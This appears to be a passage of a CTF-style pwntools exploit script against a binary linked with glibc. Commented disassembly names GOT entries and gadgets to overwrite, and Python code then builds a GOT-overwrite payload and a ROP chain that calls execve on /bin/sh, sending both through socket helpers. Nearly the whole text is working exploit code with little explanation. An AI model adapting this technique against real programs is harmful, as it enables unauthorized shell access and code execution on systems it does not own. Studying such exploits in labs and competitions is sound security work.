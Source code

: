 ```python
.got.plt:00000000001FE088 off_1FE088      dq offset wcscat        ; DATA XREF: j_wcscat+4↑r
.got.plt:00000000001FE090 off_1FE090      dq offset strcasecmp_l  ; DATA XREF: j_strcasecmp_l+4↑r
.got.plt:00000000001FE098 off_1FE098      dq offset strcpy        ; DATA XREF: j_strcpy+4↑r
.got.plt:00000000001FE0A0 off_1FE0A0      dq offset wcschr        ; DATA XREF: j_wcschr+4↑r
.got.plt:00000000001FE0A8 off_1FE0A8      dq offset _dl_deallocate_tls
.got.plt:00000000001FE0B0 off_1FE0B0      dq offset __tls_get_addr
.got.plt:00000000001FE0B8 off_1FE0B8      dq offset wmemset       ; DATA XREF: j_wmemset_0+4↑r
.got.plt:00000000001FE0C0 off_1FE0C0      dq offset memcmp        ; DATA XREF: j_memcmp+4↑r
.got.plt:00000000001FE0C8 off_1FE0C8      dq offset strchrnul     ; DATA XREF: j_strchrnul+4↑r

# overwrite strchrnul.got with:
.text:0000000000177D59                 lea     rdi, [rsp+18h]
.text:0000000000177D5E                 mov     edx, 20h ; ' '
.text:0000000000177D63                 call    j_strncpy

# overwrite strncpy.got with:
.text:00000000000D60A8                 pop     rbx
.text:00000000000D60A9                 pop     rbp
.text:00000000000D60AA                 pop     r12
.text:00000000000D60AC                 pop     r13
.text:00000000000D60AE                 jmp     j_wmemset_0

# overwrite wmemset.got with `gets`
'''

strchrnul_gadget = lbase + 0x0000000000177D59
strncpy_gadget = lbase + 0x00000000000D60A8
gets_ptr = lbase + 0x0000000000082AE0

write_dest = lbase + 0x00000000001FE078
write_payload = flat(
    strncpy_gadget,
    0xdead0001,
    0xdead0002,
    0xdead0003,
    0xdead0004,
    0xdead0005,
    0xdead0006,
    0xdead0007,
    gets_ptr,
    0xdead0008,
    strchrnul_gadget,
)

prdi = lbase + 0x0000000000028715
binsh = lbase + 0x00000000001C041B
prsi = lbase + 0x000000000002a671
prdx_rbx = lbase + 0x0000000000093359
execve_ptr = lbase + 0x00000000000EAFF0

rop_payload = flat(
    prdi, binsh,
    prsi, 0,
    prdx_rbx, 0, 0,
    execve_ptr,
)

ss("write payload to {}, length {}".format(
    hex(write_dest), hex(len(write_payload))))
sd(p64(write_dest))
sd(p64(len(write_payload)))
sd(write_payload)

```